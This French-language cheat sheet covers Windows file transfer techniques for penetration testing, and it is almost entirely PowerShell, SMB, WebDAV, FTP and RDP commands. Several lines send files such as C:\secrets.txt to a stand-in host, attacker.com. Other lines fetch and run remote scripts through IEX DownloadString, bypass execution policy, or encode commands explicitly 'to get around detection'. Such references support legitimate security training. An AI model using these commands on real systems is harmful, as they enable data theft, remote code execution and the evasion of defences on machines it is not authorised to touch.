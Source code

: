 
# Transferts de Fichiers dans les Environnements Windows

## PowerShell - Téléchargement

PowerShell offre plusieurs méthodes pour télécharger des fichiers, fonctionnant même dans des versions restrictives.

### System.Net.WebClient

```powershell
# Téléchargement de fichier
(New-Object Net.WebClient).DownloadFile('http://attacker.com/file.exe', 'C:\Users\Public\file.exe')

# Téléchargement asynchrone
(New-Object Net.WebClient).DownloadFileAsync('http://attacker.com/file.exe', 'C:\Users\Public\file.exe')

# Contenu en mémoire
$content = (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')
```

### Invoke-WebRequest (PowerShell 3.0+)

```powershell
# Téléchargement standard
Invoke-WebRequest -Uri "http://attacker.com/file.exe" -OutFile "C:\Users\Public\file.exe"

# Avec contournement d'IE
Invoke-WebRequest -Uri "http://attacker.com/file.exe" -OutFile "C:\Users\Public\file.exe" -UseBasicParsing
```

### Contournement des Restrictions

```powershell
# Contournement de la politique d'exécution
PowerShell -ExecutionPolicy Bypass -File script.ps1

# Encodage de commande pour contourner la détection
powershell -enc [BASE64_ENCODED_COMMAND]
```

## PowerShell - Envoi de Fichiers

### Envoi vers un serveur Web

```powershell
# Encodage et envoi via POST
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\file.exe' -Encoding Byte))
Invoke-WebRequest -Uri "http://attacker.com/" -Method POST -Body $b64
```

### Utilisation d'un module d'envoi

```powershell
# Avec le module PSUpload
IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/PSUpload.ps1')
Invoke-FileUpload -Uri "http://attacker.com/upload" -File "C:\file.exe"
```

## SMB pour Transferts de Fichiers

### WebDAV (SMB sur HTTP)

```powershell
# Sur la machine attaquante (Linux)
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

# Sur la machine Windows cible
dir \\attacker.com\DavWWWRoot\
copy C:\secrets.txt \\attacker.com\DavWWWRoot\
```

### Montage de Partages SMB

```powershell
# Création d'un partage SMB authentifié
net use Z: \\attacker.com\share /user:username password

# Copie de fichiers
copy C:\secrets.txt Z:\
```

## FTP pour Transferts de Fichiers

```powershell
# Utilisateur .NET WebClient
(New-Object Net.WebClient).UploadFile('ftp://attacker.com/upload', 'C:\secrets.txt')

# Avec la commande FTP et un script
echo open attacker.com > ftpcmd.txt
echo USER anonymous >> ftpcmd.txt
echo binary >> ftpcmd.txt
echo PUT C:\secrets.txt >> ftpcmd.txt
echo bye >> ftpcmd.txt
ftp -s:ftpcmd.txt
```

## Transferts via RDP

```
# Montage de dossier local dans RDP (depuis Linux)
xfreerdp /v:target.com /u:username /p:password /drive:share,/path/to/local/folder

# Accès depuis Windows
\\tsclient\share\
```

## Points Importants

- Vérifier d'abord les méthodes les plus simples (PowerShell)
- En cas de restrictions, utiliser des alternatives comme SMB ou FTP
- Considérer l'utilisation de RDP pour les transferts simples si déjà connecté
- Faire attention aux erreurs comme Internet Explorer non configuré dans PowerShell
- Toujours vérifier l'intégrité des fichiers après le transfert